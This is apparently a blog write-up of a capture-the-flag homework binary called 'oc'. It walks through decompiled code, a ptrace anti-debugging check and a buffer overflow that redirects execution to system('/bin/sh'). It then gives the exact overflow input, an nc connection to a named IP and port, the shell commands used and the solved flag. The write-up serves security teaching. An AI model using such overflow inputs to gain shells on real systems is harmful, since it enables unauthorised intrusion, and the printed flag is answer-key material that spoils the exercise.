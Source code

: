 ```yaml
---
layout: post
title: 'oc Writeup'
category: memo
slug: oc-writeup
---
```

Security Programming Homework 1-3

Using IDA Pro's impressive F5 decompilation, we discover sub\_80485D7() is the
most interesting part

```c
......
v6 = ptrace(0, 0, 1, 0);
......
if ( a1 != 14 )
{
    if ( a1 != 12 )
    {
        dword_804A044 = loc_8048707;
        src = loc_8048720;
        v4 = strlen(*(const char **)(a2 + 28));
        strncpy(dest, *(const char **)(a2 + 28), v4);
        if ( v6 >= 0 )
            memcpy(dword_804A044, src, src - dword_804A044);
    }
    puts("uhhh....it's something wrong.");
    exit(0);
}
system("/bin/sh");
return 0;
......
```

The program will copy the character(s) after 7th (including #7) character of a2
to dest. But dest is not used anymore (suspicious). Just keep in mind.

According to the text file (linux-anti-debugging.txt) from the hint

```c
int main()
{
    if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) {
        printf("DEBUGGING... Bye\n");
        return 1;
    }
    printf("Hello\n");
    return 0;
}
```

`ptrace()` will return positive integer while the exectuable is not being
debugged. So the program oc will show "The flag is Support for universal
suffrage in Hong Kong just kidding. :p" while not being debugged and show
"uhhh....it's something wrong." while being debugged.

Because dest can only contain 16 char, more than 16 char being copied to dest
will cause the variable, src, being overwritten

```nasm
0804A048    ; char dest[16]
0804A048    dest        db 10h dup(?)
0804A058    ; void *src
0804A058    src         dd ?
```

So our objective is to jump to 0x08048731, i.e. `system("/bin/sh")`. By
observation, we only need to overwritten 0x31. 0x31 is actually ASCII "1". In
conclusion, we need 7 candidates as input, and the 7th candidate must be length
of 17, the last character must be "1"

## Exploitation

1. `nc 140.113.208.235 10002`
2. input `1 1 1 1 1 1 11111111111111111`
3. got shell
4. `cat flag`

## Capture The Flag

The flag is `SECPROC{0ccupy_C3ntr4l_w1th_L0v3_4nd_P34c3}`
